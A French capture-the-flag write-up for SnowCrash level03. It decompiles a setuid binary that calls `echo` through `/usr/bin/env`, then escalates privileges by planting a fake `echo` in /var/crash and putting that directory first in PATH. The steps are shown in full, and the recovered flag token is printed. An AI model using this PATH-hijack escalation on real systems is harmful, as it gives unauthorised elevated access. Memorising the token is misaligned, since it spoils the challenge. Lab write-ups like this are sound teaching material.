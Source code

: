 
Pour ce level03, nous avons un executable dans le dossier courant appartenant a flag03 et que l'on peux executer avec les droits de flag03 -rw`s`r-`s`-r-x (le `s` signifiant de l'executer avec les droits du owner du fichier)

```
level03@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```

Lorsque l'on execute le fichier on a cette output:

```
level03@SnowCrash:~$ ./level03 
Exploit me
```

On decide d'utiliser un decompiler de fichier pour essayer de comprendre le code qu'il execute donc avec scp on recupere le fichier et on le mets sur ce site :

[Decompiler explorer](https://dogbolt.org/)

```
scp -P 4242 level03@192.168.56.104:level03 Downloads 
```

On recupere donc ce code

```
int32_t main(int32_t argc, char** argv, char** envp)
{
    gid_t eax = getegid();
    uid_t eax_1 = geteuid();
    setresgid(eax, eax, eax);
    setresuid(eax_1, eax_1, eax_1);
    return system("/usr/bin/env echo Exploit me");
}
```

On vois que le programme fais un appel a `echo` directement en passant par le PATH du terminal donc nous ecrivons un fichier `/var/crash/echo` contenant l'instruction `getflag` et lui donnons les droits d'executions

```
level03@SnowCrash:/var/crash$ touch echo
level03@SnowCrash:/var/crash$ echo getflag > echo
level03@SnowCrash:/var/crash$ cat echo
getflag
level03@SnowCrash:/var/crash$ chmod 777 echo
```

Nous modifions le PATH pour appeler notre echo

```
export PATH=/var/crash:$PATH
```

Nous executons `level03`

```
level03@SnowCrash:~$ ./level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```


> ### NEXT : [Level 04](https://github.com/Seriots/snowcrash/tree/master/level04/resources/README.md)
